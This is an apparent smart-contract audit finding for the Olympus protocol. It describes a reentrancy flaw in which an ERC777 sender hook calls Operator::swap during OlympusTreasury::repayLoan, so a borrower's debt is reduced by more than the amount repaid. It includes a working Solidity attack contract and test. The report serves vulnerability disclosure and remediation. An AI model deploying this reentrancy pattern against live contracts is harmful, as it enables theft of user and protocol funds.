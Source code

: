 ## Tags

- bug
- 2 (Med Risk)
- sponsor confirmed
- old-submission-method

# [TRSRY: reenter from OlympusTreasury::repayLoan to Operator::swap](https://github.com/code-423n4/2022-08-olympus-findings/issues/403) 

# Lines of code

https://github.com/code-423n4/2022-08-olympus/blob/b5e139d732eb4c07102f149fb9426d356af617aa/src/modules/TRSRY.sol#L105-L112
https://github.com/code-423n4/2022-08-olympus/blob/b5e139d732eb4c07102f149fb9426d356af617aa/src/policies/Operator.sol#L330


# Vulnerability details

## Impact

One can repay loan to the treasury with the value from the Operator::swap

Condition:
  - the reserve token in Operator has hook for sender (like ERC777)
  - the debt is the same token as reserve

## Proof of Concept


The below code snippet shows a part of proof of concept for reentrancy attack, which is based on `src/test/policies/Operator.t.sol`. The full test code can be found [here](https://gist.github.com/zzzitron/651e1451ac1ff21be8a72b502b26f7cb), and [git diff from the `Operator.t.sol`](https://gist.github.com/zzzitron/5b8ebe635ed1939f18a100c7940b4f11).

Let's say that the reserve token implements ERC777 with the hook for the sender [(see weird erc20)](https://github.com/d-xo/weird-erc20#reentrant-calls). If the attacker can take debt of the reserve currency for the attack contract `Reenterer`, the contract can call `OlympusTreasury::repayLoan` and in the middle of repay call `Operator::swap` function. The `swap` function will modify the reserve token balance of treasury and the amount the attacker swapped will be also be used for the `repayLoan`.

In the below example, the attacker has debt of 1e18, and repays 1e17. But since the `swap` function is called in the `repayLoan`, the debt is reduced 1e17 more then it should. And the swap happened as expected so the attack has the corresponding ohm token.

```solidity
/// Mock to simulate the senders hook
/// for simplicity omitted the certain aspects like ERC1820 registry and etc.
contract MockERC777 is MockERC20 {
    constructor () MockERC20("ERC777", "777", 18) {}

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        _callTokenToSend(from, to, amount);
        return super.transferFrom(from, to, amount);
        // _callTokenReceived(from, to, amount);
    }

    // simplified implementation for ERC777
    function _callTokenToSend(address from, address to, uint256 amount) private {
      if (from != address(0)) {
        IERC777Sender(from).tokensToSend(from, to, amount);
      }
    }
}

interface IERC777Sender {
  function tokensToSend(address from, address to, uint256 amount) external;
}

/// Concept for an attack contract
contract Reenterer is IERC777Sender {
  ERC20 public token;
  Operator public operator;
  bool public entered;

  constructor(address token_, Operator op_) {
    token = ERC20(token_);
    operator = op_;
  }

  function tokensToSend(address from, address to, uint256 amount) external override {
    if (!entered) {
    // call swap from reenter
    // which will manipulate the balance of treasury
      entered = true;
      operator.swap(token, 1e17, 0);
    }
  }
  
  function attack(OlympusTreasury treasury) public {
    // approve to the treasury
    token.approve(address(treasury), 1e18);
    token.approve(address(operator), 100* 1e18);

    // repayDebt of 1e17
    treasury.repayLoan(token, 1e17);
  }
}
```

```solidity
/// the test
    function test_poc__reenter() public {
        vm.prank(guardian);
        operator.initialize();

      reserve.mint(address(reenterer), 1e18);
      assertEq(treasury.reserveDebt(reserve, address(reenterer)), 1e18);
      // start repayLoan
      reenterer.attack(treasury);
      // it should be 9 * 1e17 but it is 8 * 1e17
      assertEq(treasury.reserveDebt(reserve, address(reenterer)), 8*1e17);
    }
```

## Cause

The `repayLoan`, in the line 110 below,  calls the `safeTransferFrom`. The balance before and after are compared to determine how much of debt is paid. So, if the `safeTranferFrom` can modify the balance, the attacker can profit from it.

```solidity
// OlympusTreasury::repayLoan
// https://github.com/code-423n4/2022-08-olympus/blob/b5e139d732eb4c07102f149fb9426d356af617aa/src/modules/TRSRY.sol#L105-L112
105     function repayLoan(ERC20 token_, uint256 amount_) external nonReentrant {
106         if (reserveDebt[token_][msg.sender] == 0) revert TRSRY_NoDebtOutstanding();
107
108         // Deposit from caller first (to handle nonstandard token transfers)
109         uint256 prevBalance = token_.balanceOf(address(this));
110         token_.safeTransferFrom(msg.sender, address(this), amount_);
111
112         uint256 received = token_.balanceOf(address(this)) - prevBalance;
```

In the `swap` function, if the amount in token is reserve, the payment token to buy ohm will be paid to the treasury. It gives to an opportunity to modify the balance.

```solidity
// Operator::swap
// https://github.com/code-423n4/2022-08-olympus/blob/b5e139d732eb4c07102f149fb9426d356af617aa/src/policies/Operator.sol#L330
329             /// Transfer reserves to treasury
330             reserve.safeTransferFrom(msg.sender, address(TRSRY), amountIn_);
```

Although both of `Operator::swap` and `OlympusTreasury::repayLoan` have `nonReentrant` modifier, it does not prevent as they are two different contracts.

## Tools Used

foundry

## Recommended Mitigation Steps

The deposit logic in the `OlympusTreasury::repayLoan` was trying to handle nonstandard tokens, such as fee-on-transfer. But by doing so introduced an attack vector for tokens with ERC777. If the reserve token should be decided in the governance, it should be clarified, which token standards can be used safely.


<!-- zzzitron M00 -->



